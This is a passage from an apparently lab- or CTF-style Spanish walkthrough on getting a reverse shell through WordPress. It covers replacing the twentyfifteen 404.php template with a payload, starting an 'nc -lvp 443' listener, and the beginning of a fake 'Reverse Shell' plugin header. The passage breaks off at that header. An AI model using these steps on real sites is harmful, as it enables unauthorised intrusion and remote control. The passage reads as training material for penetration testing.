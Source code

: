 Ahora reemplazaremos el contenido del template 404 por el contenido de nuestro payload, y lo guardaremos.

<p align="center"><img src="img/9.png"></p>

Inciaremos un listener, ya que esperamos una conexión por parte de nuestra víctima.

```nc -lvp 443```

Y simplemente visitaremos una página aleatoria o mismamente la página ```/wp-content/themes/twentyfifteen/404.php```

Tan pronto accedamos, ya habremos obtenido una revese shell al usuario **daemon**
#
<h2 align="center">Subida de un falso plugin</h2>

Para ello accedemos a Plugins -> Add New -> Upload Plugin.

<p align="center"><img src="img/10.png"></p>


Podríamos emplear el payload mencionado en la anterior sección tal cual, pero no cumplirá con el formato de un plugin de WordPress.. tendremos que hacer de nuestro payload un plugin válido, para ello comenzaremos por añadir la siguiente cabecera a nuestro payload.

```
/*

Plugin Name:  Reverse Shell

Plugin URI: http://mrrobot.com

Description: Shell
